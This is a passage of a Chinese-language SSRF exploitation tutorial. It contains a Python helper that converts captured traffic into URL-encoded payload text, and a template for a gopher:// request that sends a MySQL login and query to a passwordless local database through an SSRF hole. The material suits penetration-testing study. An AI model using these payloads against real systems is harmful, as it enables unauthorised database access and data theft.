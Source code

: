 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111225155.png-water_print](assets/1699411601-e91eabc5b0da9e4e67f8370258aea9f8.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111225155.png-water_print")

流量转换

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>``` | ```python<br># coding: utf-8<br>import sys<br><br>exp = ''<br><br>with open(sys.argv[1]) as f:<br>    for line in f.readlines():<br>        if line[0] in '><+':<br>            continue<br>        # 判断倒数第 2、3 字符串是否为 \r<br>        elif line[-3:-1] == r'\r':<br>            # 如果该行只有 \r，将 \r 替换成 %0a%0d%0a<br>            if len(line) == 3:<br>                exp = exp + '%0a%0d%0a'<br>            else:<br>                line = line.replace(r'\r', '%0d%0a')<br>                # 去掉最后的换行符<br>                line = line.replace('\n', '')<br>                exp = exp + line<br>        # 判断是否是空行，空行替换为 %0a<br>        elif line == '\x0a':<br>            exp = exp + '%0a'<br>        else:<br>            line = line.replace('\n', '')<br>            exp = exp + line<br>print exp<br>``` |

#### [](#232-gopher-%E5%AF%B9-mysql-%E7%9A%84%E5%88%A9%E7%94%A8)2.3.2 Gopher 对 Mysql 的利用

前提：

-   存在 SSRF 漏洞
-   MySQL 无密码

Gopher 协议转化

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>gopher://127.0.0.1:3306/_<br>+ url 编码的登录请求<br>+ 包长度(wireshark 抓包时可以直接看到 Packet Length)<br>+ %00%00%00%03<br>+ 查询语句(URL 编码)<br>+ %01%00%00%00%01<br>``` |
